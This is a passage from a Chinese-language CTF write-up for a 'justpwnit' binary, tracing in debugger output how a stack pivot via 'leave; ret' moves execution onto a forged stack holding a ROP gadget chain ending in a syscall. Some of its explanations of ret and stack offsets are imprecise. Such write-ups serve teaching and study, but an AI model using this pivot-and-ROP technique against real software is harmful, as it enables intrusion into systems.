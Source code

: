接着指令会执行：

```
   0x401207 <set_element+206>    add    rsp, 0x28
 ► 0x40120b <set_element+210>    pop    rbx
   0x40120c <set_element+211>    pop    rbp
   0x40120d <set_element+212>    ret    
```

这是很关键的一步，经过`rsp+0x28`释放栈空间后，将对rbx（局部参数用到的寄存器）和基址寄存器rbp进行恢复，即pop操作；

执行`pop rbx`后，`rsp+8`和rbp指向同一地址；

执行`pop rbp`后，rbp将指向伪造的栈空间，即下方代码块的`0x7f68494ab050`；

```
RBP  0x7f68494ab050 ◂— 0x0
```

而执行`ret`操作，相当于执行`pop rip; jmp rsp;`；`pop rip`使得`rsp+8`，rsp指向了`ret_addr`，因此在`jmp rsp`时，得以让程序继续返回到指定地址去执行；

接着关键之处来了，此时rbp已经被修改为：

```
RBP  0x7f68494ab050 ◂— 0x0
```

继续执行：

```
 ► 0x40123b <justpwnit+45>    leave  
   0x40123c <justpwnit+46>    ret    
```

`leave`操作相当于`mov rsp, rbp; pop rbp;`，即`rsp->rbp->0x7f68494ab050, rbp->0, rsp-4`因此可以看到，rsp指向了原来rbp所指内容的下一行`0x7f68494ab058`：

```
00:0000│ rsp  0x7f68494ab058 —▸ 0x403d23 (wctomb+17) ◂— pop    rdx
01:0008│      0x7f68494ab060 ◂— 0x100
02:0010│      0x7f68494ab068 —▸ 0x4019a3 (mmap64+197) ◂— pop    rsi
```

`ret`将`pop rip; jmp rsp`，并且`rsp+4`，此时程序顺利跳转到了伪造的栈上，如下；

```
RIP  0x403d23 (wctomb+17) ◂— pop    rdx
--------------------------------------------------------------------------
   0x40123b <justpwnit+45>          leave  
   0x40123c <justpwnit+46>          ret    
    ↓
 ► 0x403d23 <wctomb+17>             pop    rdx
   0x403d24 <wctomb+18>             ret    
---------------------------------------------------------------------------
00:0000│ rsp  0x7f68494ab060 ◂— 0x100
01:0008│      0x7f68494ab068 —▸ 0x4019a3 (mmap64+197) ◂— pop    rsi
02:0010│      0x7f68494ab070 —▸ 0x40c540 (buf+704) ◂— 0x0
03:0018│      0x7f68494ab078 —▸ 0x401b0d (fgets_unlocked+360) ◂— pop    rdi
04:0020│      0x7f68494ab080 ◂— 0x0
05:0028│      0x7f68494ab088 —▸ 0x401001 (_init+1) ◂— pop    rax
06:0030│      0x7f68494ab090 ◂— 0x0
07:0038│      0x7f68494ab098 —▸ 0x403888 (__unlock+59) ◂— syscall 
```
